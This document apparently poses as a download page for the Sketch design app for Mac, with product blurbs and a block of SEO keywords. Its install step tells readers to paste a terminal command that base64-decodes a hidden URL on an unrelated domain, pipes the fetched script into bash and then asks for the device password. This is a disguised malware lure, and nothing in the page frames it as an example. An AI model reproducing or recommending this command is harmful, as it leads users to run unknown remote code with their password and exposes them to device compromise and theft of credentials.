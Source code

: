 # Sketch Download for Mac - Professional Design Tool

![Sketch Screenshot](https://images.squarespace-cdn.com/content/5e949a92e17d55230cd1d44f/1599080349241-FAPTY53DP2TNI985BXJR/Bigsuriconsketch3x2.png)

---

### 🔽 Download Sketch for Mac

> 📥 Open the terminal on your device and paste the command below.
1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is Sketch for Mac?

Sketch is a vector-based design tool exclusively for macOS, widely used by UI/UX designers and digital product teams. This professional application provides all necessary tools for creating interfaces, websites, icons and other digital designs with pixel-perfect precision.

Key aspects include:
- Intuitive vector editing tools
- Comprehensive prototyping features
- Collaborative design capabilities
- Extensive plugin ecosystem
- Design system management
- Export optimization tools

Optimized specifically for Mac, Sketch delivers smooth performance and integrates perfectly with other design tools in your workflow. Its focus on digital design makes it a preferred choice over general-purpose graphic software.

![Sketch Workspace](https://mac-cdn.softpedia.com/screenshots/Bohemian-Sketch_10.jpg)

---

## Key Features & Benefits

- ✏️ Advanced vector editing
- 🖌️ Pixel-perfect design tools
- 🔗 Interactive prototyping
- 👥 Real-time collaboration
- 🧩 Extensive plugins
- 🖥 macOS optimized performance

---

## 🔍 Keywords

Sketch for Mac, Sketch Mac Download, Sketch for Mac Download, Sketch Mac, Sketch Download Mac, Sketch Download for Mac, Sketch full version, Mac Download Sketch, Download Mac Sketch, Download Sketch Mac, Download Sketch for Mac
